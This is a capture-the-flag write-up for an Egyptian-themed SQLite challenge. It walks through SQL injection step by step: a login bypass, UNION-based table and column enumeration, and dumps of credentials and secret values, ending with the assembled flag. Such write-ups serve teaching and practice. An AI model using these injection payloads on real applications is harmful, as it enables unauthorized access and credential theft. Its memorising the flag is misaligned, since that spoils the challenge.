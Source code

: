# The Lost Archaeologist 

## NOTE!
**This solution was created for an older version of the CTF and may not be entirely correct.**

## Solution
Simple `' or 1=1; --` at worker login page. This gives the first part of the flag: 
**O24{1nj3ct**

We can search thoug the military database with `a' OR true UNION SELECT 1,2,3,4; --`:

1	2	3	4
1	ramses	regular	75
2	neferu	archer	65
3	khonsu	charioteer	80
4	sebek	elite	90
5	tauret	regular	70


The database uses SQLite:
`' or 1=1 UNION SELECT 1,2,3,name FROM sqlite_master WHERE type='table';--`

# Database info
## Tables:
* ctf_schema_columns
* ctf_schema_tables
* generals
* log_entries
* pharaohs
* pharaohs_secret
* sacred_deities
* soldiers
* sqlite_sequence
* workers

## Columns
Command: `' or 1=1 UNION SELECT group_concat(name, ', '), 1,1,1 FROM pragma_table_info('ctf_schema_columns');-- `
### ctf_schema_columns
* table_name
* column_name

### ctf_schema_tables
* table_name

### generals
* id 
* username
* password
* rank

### log_entries
* id
* entry_text
* timestamp

### pharaohs
* id
* name
* access_level

### pharaohs_secret
* id
* key_name
* key_value

### sacred_deities
* id
* name
* power
* secret_code

### soldiers
* id
* name
* rank
* strength
* loyalty

### sqlite_sequence
* name
* seq

### workers
* id
* username
* password
* role

## Data
* `asdasd' UNION SELECT id, username, password, rank FROM generals;--`
* 1	general_hotep	conqueror_of_nubia	high_general
---
* `asdasd' UNION SELECT id, key_name, key_value, 1 FROM pharaohs_secret;--`
* 1	throne_access	eternal_sunrise	1
---
* `asdasd' UNION SELECT id, name, power, secret_code FROM sacred_deities;--`
* 1	amuntekh	ultimate	t3r_g0d}


# FLAG
1. **O24{1nj3ct**
2. **10n_m4s**
3. **t3r_g0d}**

Combined: **O24{1nj3ct10n_m4st3r_g0d}**
